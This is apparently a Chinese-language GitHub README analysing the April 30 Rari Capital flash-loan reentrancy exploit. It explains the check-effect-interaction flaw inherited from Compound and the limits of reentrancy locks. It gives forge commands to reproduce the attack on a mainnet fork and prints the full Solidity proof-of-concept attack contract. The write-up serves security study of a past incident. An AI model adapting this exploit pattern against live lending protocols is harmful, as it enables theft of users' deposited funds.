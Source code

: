 # Rari_Fei_Vul_Poc
Rari Capital 攻击事件的 分析和复现 

### 写在前面的废话

4月30日, `Rari Capital`的几个借贷池遭受闪电贷重入攻击, 约受损8000万美金.

漏洞原理与去年我分析过的`Cream 第四次被黑`类似, 但攻击方式更加优雅, 故有此文.

### 漏洞起因: Compound起的坏头

老牌Defi借贷项目`Compound`在代码实现上存在兼容性问题, 没有遵循`check-effect-interaction`原则, 简单用人话翻译就是, 针对借贷场景,没有做到`先记账, 再转账` 

```
https://github.com/compound-finance/compound-protocol/blob/ae4388e780a8d596d97619d9704a931a2752c2bc/contracts/CToken.sol#L786
```

![image](https://user-images.githubusercontent.com/33406415/168264773-32e9f54d-6e8e-434c-90b9-a7c575814a7d.png)



在大部分情况下, 这个逻辑没问题, 但是如果用户借贷的资产为带类似钩子函数的`Token`,就会引发重入的风险, 攻击者可以在记账之前进行预期之外的恶意操作, 对项目造成大量损失.

当然在`Compound`开发之初, 可能还没有`check-effect-interaction`这个说法, 所以我们不能责备他们太多, 而且他们自己非常清楚代码的缺陷, 所以在运营上一直避免引入不兼容的加密资产.

然而仿盘们心里并没有这个哔数.

以去年的`Cream`为例:

![image](https://user-images.githubusercontent.com/33406415/168264788-edd9600e-7692-4db1-aada-5aafa67c0a66.png)


其实去年在分析`Cream`的时候, 我以为只会是孤例, 因为漏洞诞生于2个项目的错误拼接, 触发条件苛刻, 而且`Cream`上亿美金的损失会给开发者一个长足的教训.

然而现实远非我的预料, 3月的`Hundred Finance`, `VOLTAGE FINANCE`. 
不到一年时间, 仿盘们以各种姿势, 前赴后继踏入同一条河流.


### 新的漏洞触发姿势

`Rari`虽然吸取了前人的教训,没有引入不兼容的Token, 但是自己作死, 在`CEther`合约中使用了`call.value`来进行`ETH`的转账.
首次在不借助合作伙伴的情况下, 自主独立创造了漏洞环境.

```
https://etherscan.io/address/0xd77e28a1b9a9cfe1fc2eee70e391c05d25853cbf#code
```

![image](https://user-images.githubusercontent.com/33406415/168264813-bc11e823-fe35-4de4-b9bd-b453e8ae65a1.png)


### 更优雅的攻击方式

以往仿盘们的攻击者, 虽然通过重入借贷了2次,但只能选择把原始质押资产留在池子里.
所以单次攻击最大获利为 70% + 70% - 100% = 40%


而这次攻击者虽然只有一次借贷, 但是自己原始的质押资产全身而退, 约等于白嫖了属于是.

![image](https://user-images.githubusercontent.com/33406415/168264843-d036f4d6-b8d1-4b47-8ffb-03afad810d01.png)


### 重入锁的局限性

`nonreentrant`可以有效的抵御单一合约在单一transaction中的重入风险.
但是对于由多合约构造的复杂应用, 重入锁并不能起到足够的作用.
A合约的a函数和B合约的b函数即使都加了重入锁，攻击者依然可以通过A合约的a函数去重入B合约的b函数. 


### 仿盘的自我修养

近一年的时间里, 仿盘们或浑然不知, 或修修补补, 有的项目方给几乎所有核心函数增加`nonReentrant`防重入锁, 以为万事大吉.
但是依然没有遵循`check-effect-interaction`原则, 治标不治本, 其实改一下代码顺序就可以....

例如记吃记打的`Cream`在后续更新版本中, 就更改了转账和记账的顺序

```
https://etherscan.io/address/0x28192abdb1d6079767ab3730051c7f9ded06fe46#code
```

![image](https://user-images.githubusercontent.com/33406415/168264863-e01bfa2d-a96b-4c13-9bdd-741f59802444.png)





### 复现方法

```
git clone https://github.com/W2Ning/Rari_Fei_Vul_Poc.git && cd Rari_Fei_Vul_Poc
```


```
forge test -vvv --fork-url $eth --fork-block-number 14684813
```


<img width="600" alt="image" src="https://user-images.githubusercontent.com/33406415/168168303-d6fadeb3-c983-46f1-bb58-61e31c554eab.png">


### 核心攻击代码

```js
    function test() public{

        // 前置准备操作1: 查看 fETH_127 中有多少ETH可以借  
        emit log_named_uint("ETH Balance of fETH_127 before borrowing",address(fETH_127).balance/1e18);

        // 前置准备操作2: 因为forge的测试地址上本身有很多的ETH 
        // 所以先把他们都转走, 方便查看攻击所得ETH数量
        payable(address(0)).transfer(address(this).balance);

        emit log_named_uint("ETH Balance after sending to blackHole",address(this).balance);

        // 第一步, 从balancer中通过闪电贷借1500万的USDC
        // 攻击者其实借了1.5亿, 但其实1500万就可以
        // 但是balancer的闪电贷是不收手续费的, 所以借多少都无所谓

        address[] memory tokens = new address[](1);

        tokens[0] = address(usdc);

        uint[] memory amounts = new uint[](1);

        amounts[0] =  150000000*10**6;

        vault.flashLoan(address(this), tokens, amounts, '');

    }

    function receiveFlashLoan(
        IERC20[] memory tokens,
        uint256[] memory amounts,
        uint256[] memory feeAmounts,
        bytes memory userData
    )
        external
    {
        // 没有下面四行会有恶心的warning
        tokens;
        amounts;
        feeAmounts;
        userData;
        // 查看是否成功借到了1500万的USDC

        uint usdc_balance = usdc.balanceOf(address(this));
        emit log_named_uint("Borrow USDC from balancer",usdc_balance);

        // 第二步, 调用fusdc_127的mint函数, 
        // 完成usdc的质押操作

        usdc.approve(address(fusdc_127), type(uint256).max);

        fusdc_127.accrueInterest();

        fusdc_127.mint(15000000000000);

        uint fETH_Balance = fETH_127.balanceOf(address(this));

        emit log_named_uint("fETH Balance after minting",fETH_Balance);

        usdc_balance = usdc.balanceOf(address(this));

        emit log_named_uint("USDC balance after minting",usdc_balance);

        // 第三步, 调用 Unitroller 的 enterMarkets函数

        address[] memory ctokens = new address[](1);

        ctokens[0] =  address(fusdc_127);

        rari_Comptroller.enterMarkets(ctokens);

        // 第四步, fETH_127 的borrow函数, 借1977个ETH

        fETH_127.borrow(1977 ether);

        emit log_named_uint("ETH Balance of fETH_127_Pool after borrowing",address(fETH_127).balance/1e18);

        emit log_named_uint("ETH Balance of me after borrowing",address(this).balance/1e18);

        usdc_balance = usdc.balanceOf(address(this));

        fusdc_127.approve(address(fusdc_127), type(uint256).max);

        fusdc_127.redeemUnderlying(15000000000000);

        usdc_balance = usdc.balanceOf(address(this));

        emit log_named_uint("USDC balance after borrowing",usdc_balance);

        // 第五步, 把1500万的USDC还给balancer

        usdc.transfer(address(vault), usdc_balance);

        usdc_balance = usdc.balanceOf(address(this));

        emit log_named_uint("USDC balance after repayying",usdc_balance);
    }


    receive() external payable {

        rari_Comptroller.exitMarket(address(fusdc_127));

    }

```
